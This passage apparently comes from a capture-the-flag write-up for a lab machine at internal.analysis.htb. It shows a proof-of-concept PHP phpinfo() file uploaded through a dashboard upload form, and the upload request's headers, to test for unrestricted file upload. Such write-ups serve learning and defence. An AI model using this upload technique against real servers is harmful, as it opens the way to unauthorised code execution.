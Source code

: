 ![SOC report upload](/assets/img/Analysis/Analysis_12.png)



 As initial proof of concept i tried to upload a php file containing the phpinfo command.

```php
<?php

// Show all information, defaults to INFO_ALL
phpinfo();

// Show just the module information.
// phpinfo(8) yields identical results.
phpinfo(INFO_MODULES);

?>
```

The browser would then send the following request.

```
POST /dashboard/upload.php HTTP/1.1
Host: internal.analysis.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2443440621055325101533182484
Content-Length: 537
Origin: http://internal.analysis.htb
Connection: close
Referer: http://internal.analysis.htb/dashboard/form.php
Cookie: PHPSESSID=hd36pk9u6phc1fl2ud7lbkem0h
Upgrade-Insecure-Requests: 1

```